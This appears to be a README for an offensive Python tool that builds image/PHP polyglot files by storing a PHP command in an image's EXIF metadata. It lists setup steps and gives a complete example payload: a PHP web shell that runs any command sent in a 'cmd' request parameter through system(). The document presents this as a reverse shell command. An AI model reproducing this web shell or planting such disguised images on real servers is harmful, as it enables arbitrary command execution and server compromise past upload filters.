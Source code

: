 # Polyglot-Generator
First Polyglot Generator written in python (image file + php command)
* The PHP command is stored within the image’s EXIF metadata.

# Requierments
- Python 3
- PIL module (PIP)
- Image file
- php reverse shell command

# Set Up
Install PIL module
```$ pip install Pillow piexif```

Run the file
```$ python3 polyglotGenerator.py```

Example of the PHP reverse shell command that can used
```$ <?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; } __HALT_COMPILER();?>```


